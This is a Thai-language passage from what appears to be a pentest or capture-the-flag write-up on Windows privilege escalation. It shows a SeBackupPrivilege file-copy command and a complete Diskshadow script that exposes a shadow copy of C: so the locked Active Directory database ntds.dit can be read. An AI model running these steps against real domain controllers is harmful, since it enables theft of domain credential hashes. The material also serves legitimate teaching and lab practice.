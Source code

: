 ![](./IMG/009.png)

แต่น่าเสียดายที่เราไม่สามารถทำแบบนี้ได้กับไฟล์ root.txt หรือไฟล์ ntds.dit ได้ 

```
Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt ice.txt 
```
![](./IMG/010.png)

## DiskShadow

เครื่องมือที่ดีในการอ่านไฟล์ ntds.dit คือ **Diskshadow.exe** ซึ่งเป็นยูทิลิตี้ของ Microsoft ที่ใช้งานฟังก์ชันของ **Volume Shadow Copy Service (VSS)**
- โดยปกติ Diskshadow ใช้โหมด interactive (แบบพิมพ์คำสั่งสดๆ) แต่หากไม่มี desktop environment (เช่นใน shell ของ pentester) ควรใช้ **script mode** แทน โดยเขียนคำสั่งลงไฟล์ .txt แล้วสั่งให้ Diskshadow ทำตาม
- เป้าหมายคือการสร้าง **Shadow Copy ของไดรฟ์ C:** เพื่อ map เป็นไดรฟ์ใหม่ (เช่น Z:) ซึ่งจะสามารถ **เข้าถึงไฟล์ที่ปกติถูกล็อกอยู่บนไดรฟ์ C:** ได้ เช่น ntds.dit (ฐานข้อมูลของ AD)

อ้างอิงข้อมูลเขียน Script : https://pentestlab.blog/tag/diskshadow/ 

สร้างไฟล์ ==vss.dsh== แล้วนำไป upload บนเครื่องเป้าหมาย

```script
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```
